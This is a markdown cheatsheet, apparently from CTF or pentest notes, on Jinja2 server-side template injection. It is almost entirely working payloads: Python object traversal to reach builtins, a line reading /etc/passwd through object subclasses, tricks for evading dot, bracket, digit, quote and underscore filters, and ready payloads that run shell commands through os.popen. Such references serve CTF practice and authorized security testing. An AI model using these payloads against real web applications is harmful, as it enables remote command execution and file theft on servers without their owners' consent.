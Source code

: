 # Jinja 2

See the [pyjail cheatsheet](./pyjail.md).

## Building blocks

### Getting object
```py
>>> range.__base__
>>> [].__class__.__base__
>>> ().__class__.mro()[1]
>>> {}.__class__.__mro__[1]
```

### Some useful classes
```py
# 40: File
>>> object.__subclasses__()[40]('/etc/passwd').read()
# 84: Builtin Importer
>>> object.__subclasses__()[84].load_module('builtins')
```

### Accessing globals (jinja module)
```py
>>> lipsum.__globals__
>>> url_for.__globals__
>>> cycler.__init__.__globals__
>>> joiner.__init__.__globals__
>>> namespace.__init__.__globals__
```

### Accessing builtins
```py
>>> globals().__builtins__
>>> object.__subclasses__()[84].load_module('builtins')
```

## Bypassing filters

### Dot filter
```py
>>> lipsum["__globals__"]
>>> lipsum|attr("__globals__")
```

### Bracket filter
```py
>>> lipsum.__globals__.os
>>> lipsum|attr("__globals__").os
```

### Digit filter
```py
>>> _|int
0
>>> "6"|int
>>> "6"|float
>>> False # looks like 0
>>> True  # looks like 1
>>> {x,x,x}|length # works even when x is undefined
3
>>> range~lipsum|length
64
```

### Boolean filter
```py
# False
>>> 0, '', [], (), {}, set(), None, Undefined, range(0) # Falsy
>>> 0>0
>>> ()>()
>>> ''<''
>>> x!=x # works even when x is undefined
>>> 0is 1
>>> 0in[]

# True
>>> 7, -7, 'A', [0], {0}, (0,), {0:0}, range(1), object() # Truthy
>>> 1>0
>>> x==x # works even when x is undefined
>>> 'a'>''
>>> ''in''
>>> ''==''
```

### Constructing strings without quotes
```py
>>> dict(__class__=_)|last
"__class__"
>>> dict(__class__=_)|first
"__class__"
>>> range~False
"<class 'range'>False"
>>> _|pprint
"Undefined"
>>> 5|string
"5"
>>> (_~range)[True:([]~True)|length]
"class"
```

## Common payloads

### No bracket, no digit.
Very short!
```py
{{ lipsum.__globals__.os.popen('id').read() }}
```

### No dot, no digit.
Very short!
```py
{{ lipsum['__globals__']['os']['popen']('id')['read']() }}
```

### No dot, no bracket, no digit.
```py
{{ lipsum|attr('__globals__')|attr('__getitem__')('__builtins__')|attr('__getitem__')('__import__')('os')|attr('popen')('id')|attr('read')() }}
```

### No dot, no bracket, no underscore.
Optimized from [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2---filter-bypass).
```py
{{ lipsum|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')() }}
```

### No dot, no quote, no digit.
```py
{{ lipsum[dict(__globals__=_)|last][dict(os=_)|last][dict(popen=_)|last](dict(ls=_)|last)[dict(read=_)|last]() }}
```

### No dot, no bracket, no quote, no digit.
```py
{{ lipsum|attr(dict(__globals__=_)|last)|attr(dict(get=_)|last)(dict(os=_)|last)|attr(dict(popen=_)|last)(dict(id=_)|last)|attr(dict(read=_)|last)() }}
```